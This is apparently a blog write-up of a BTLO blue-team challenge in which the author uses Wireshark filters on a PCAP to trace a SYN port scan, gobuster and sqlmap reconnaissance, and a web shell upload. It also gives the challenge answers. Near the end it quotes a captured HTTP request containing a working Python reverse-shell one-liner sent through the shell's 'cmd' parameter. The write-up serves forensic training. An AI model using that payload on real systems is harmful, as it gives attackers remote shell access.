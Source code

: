 ```yaml
---
layout: article
title: Network Analysis - Web Shell
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://upload.wikimedia.org/wikipedia/commons/thumb/d/df/Wireshark_icon.svg/1200px-Wireshark_icon.svg.png
permalink: /writeups/network-analysis-web-shell
tags:
- BTLO
- Challenges
author: z3f1r0
---
```


## Scenario
The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

`Wireshark`{:.info} `Tshark`{:.info} `TCPDump`{:.info}

Before starting this challenge I suggest to study network protocols, how to make network analysis and how the web works.

## Challenge Submission

### What is the IP responsible for conducting the port scan activity?
To complete this challenge I used [Wireshark](https://www.wireshark.org/){:target="_blank"}. I feel absolutely confident with this tool.
The goal is to analyse network traffic in order to answer challenge's questions.
First of all I opened pcap file and checked for *Endpoint Statistics*.
Curious thing is that only two endpoints have lot of bytes transmitted and received, so I filtered for these two IPs.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/1.png)

It was simple to understand which endpoint generated traffic in order to perform a "Local to Local Port Scanning".

>10.251.96.4

### What is the port range scanned by the suspicious host?
To solve this question I applied the following query:
```wireshark
ip.src==10.251.96.4 && ip.dst==10.251.96.5
```
and then I ordered *Dest. Port.* column in ascending and I looked for this kind of info packet:
```
673	2021-02-07 16:33:06.260189996	10.251.96.4	10.251.96.5	81	TCP	62	41675 → 81 [SYN] Seq=0 Win=1024 Len=0 MSS=1460
```

>81-1024

### What is the type of port scan conducted?
In this type of Port Scanning, there are two important messages between hosts.
First host: *SYN*
Second host: *RST, ACK* or *SYN/ACK*
This is a specific Port Scanning technique: **TCP SYNScan**.
You can read more [here](https://iphelix.medium.com/port-scanning-techniques-7661839d182e){:target="_blank"} about Port Scanning's Techniques.
[Here](https://www.howtouselinux.com/post/tcp-flags){:target="_blank"} you can read more about packet TCP Flags.

 - This is a good query cheat sheet for [Detection network attacks with Wireshark](https://www.infosecmatter.com/detecting-network-attacks-with-wireshark/)

>TCP SYN

### Two more tools were used to perform reconnaissance against open ports, what were they?
Once we understand which hosts are interested we can filter by destination IP and Port.
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5)
```
Following various HTTP packets I noticed several GET Requests. 
Inside the packet we can note *User-Agent* field that was filled by a particular tool.
In this case **gobuster 3.0.1** a web directory enumeration tool.

I updated my query for the detection:
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5) && (http.user_agent)
```

Tools are two in according with the question. So I deleted gobuster rows to discover other details.
```wireshark
((tcp.dstport == 80) && (ip.dst == 10.251.96.5) && (http.user_agent)) && !(http.user_agent == "gobuster/3.0.1")
```

I noticed POST Requests and, investigating the packet, I discovered the second tool: **sqlmap 1.4.7** used to perform reconnaissance.

> gobuster 3.0.1, sqlmap 1.4.7

### What is the name of the php file through which the attacker uploaded a web shell?
The attacker uploaded a web shell so in this case we have to investigate filtering for POST Request because he's uploading something on the website.
```wireshark
(tcp.dstport == 80) && (ip.dst == 10.251.96.5) && http.request.method==POST
```

Last row of the result show us the name of the file through which the attacker uploaded the webshell.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/2.png)

>editprofile.php

### What is the name of the web shell that the attacker uploaded?
Following the TCP Stream we can see clearly the POST Request and the filename of the webshell.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/3.png)

>dbfunctions.php

### What is the parameter used in the web shell for executing commands?
Looking at the php code of the web shell we can see the parameter used.

>cmd

### What is the first command executed by the attacker?
We can use the following query to detect GET Requests after the upload of the web shell:
```wireshark
ip.src==10.251.96.4 && http.request.method == "GET"
```

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/net-analysis-web-shell/4.png)

>id

### What is the type of shell connection the attacker obtains through command execution?
Last command launched is a python reverse shell.
```wireshark
GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
```

>reverse shell

### What is the port he uses for the shell connection?
You can see the port used for the shell connection in the python command.

>4422

